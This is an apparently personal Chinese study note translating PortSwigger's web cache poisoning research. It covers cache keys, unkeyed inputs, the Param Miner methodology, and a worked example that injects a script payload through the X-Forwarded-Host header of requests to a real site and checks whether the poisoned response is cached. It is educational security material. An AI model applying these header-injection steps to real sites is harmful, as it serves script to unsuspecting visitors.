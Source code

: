 > 本文 翻译整理自[实用的web缓存中毒](https://portswigger.net/research/practical-web-cache-poisoning)，记录仅作个人学习使用，侵删
## 核心概念
### Caching 101
Web缓存位于用户和应用程序服务器之间，它们保存和提供某些响应的副本。在下图中，我们可以看到三个用户一个接一个地获取相同的资源：
![](media/Pasted%20image%2020231003235129.png)

### Cache keys
每当缓存收到一个资源的请求时，它需要决定是否已经保存了这个确切资源的副本，并可以用它来回复请求，还是需要将请求转发给应用服务器。逐字节匹配不现实，这就出现了`缓存键`解决问题
```java
GET /blog/post.php?mobile=1 HTTP/1.1  
Host: example.com  
User-Agent: Mozilla/5.0 … Firefox/57.0  
Cookie: language=pl;  
Connection: close
```

```java
GET /blog/post.php?mobile=1 HTTP/1.1  
Host: example.com  
User-Agent: Mozilla/5.0 … Firefox/57.0  
Cookie: language=en;  
Connection: close
```

在上述请求中，使用了HTTP方法`GET`和主机名`example.com` 以及请求路径`/blog/post.php` 和查询字符串`?mobile=1`来作为缓存建，可想而知，该页面将以错误的语言提供给第二个访问者
>这暗示了一个问题--由非键控输入触发的响应中的任何差异都可能被存储并提供给其他用户

#### 补充：
```
缓存通过使用缓存键（cache keys）的概念来解决这个问题 - 这是 HTTP 请求的一些特定组件，用于完全标识被请求的资源

缓存键通常包括用于唯一标识资源的以下元素：

1. **HTTP方法 (HTTP Method):** 这表示请求的类型，例如 GET、POST、PUT 或 DELETE。

2. **主机名 (Host Name):** 表示请求资源的主机名或域名，用于定位资源的来源。

3. **路径 (Path):** 表示请求资源的路径，即 URL 中主机名之后的部分。

4. **查询字符串 (Query String):** 表示查询参数，如果请求中包含查询参数，它们也会被包括在缓存键中。

```

### Cache Poisoning
Web缓存中毒的目的是发送导致有害响应的请求，这些响应被保存该高速缓存中并提供给其他用户。
![](media/Pasted%20image%2020231004000647.png)
1. HTTP头等非键控输入
2. HTTP响应拆分
3. 请求走私

### Methodology
1. 找到非键控输入 ，Param Miner
2. 评估你可以用它做多少破坏，然后尝试将它存储该高速缓存中。
3. 缓存的响应可以屏蔽未键控的输入，因此如果您试图手动检测或探索未键控的输入，那么缓存终结者是至关重要的。如果加载了Param Miner，则可以通过向查询字符串添加一个值为$randomplz的参数来确保每个请求都有一个唯一的缓存键。
4. ~~当审核一个实时网站时，意外地毒害其他访问者是一个永久的危险。Param Miner通过向Burp的所有出站请求添加缓存破坏器来缓解此问题。这个缓存buster有一个固定的值，因此您可以自己观察缓存行为，而不会影响其他用户。~~

### Basic Poisoning
1. 找到非键控输入
```code
GET /en?cb=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host:      **canary** 
  
HTTP/1.1 200 OK  
Cache-Control: public, no-cache  
…  
<meta property="og:image" content="https://  **canary **  /cms/social.png" />
```
2. 评估是否可利用
```code
GET /en?dontpoisoneveryone=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host:     **a."><script>alert(1)</script> **
  
HTTP/1.1 200 OK  
Cache-Control: public, no-cache  
…  
<meta property="og:image" content="https://   **a."><script>alert(1)</script>**  "/>
```
3. 检查此响应是否已存储在缓存中，以便将其传递给其他用户
```code
GET /en?dontpoisoneveryone=1 HTTP/1.1  
Host: www.redhat.com  
  
HTTP/1.1 200 OK  
…  
<meta property="og:image" content="https://a."><script>alert(1)</script>"/>
```

### Discreet poisoning


## Tools
[Param Miner](https://github.com/PortSwigger/param-miner)

## Paper
[实用的web缓存中毒](https://portswigger.net/research/practical-web-cache-poisoning)
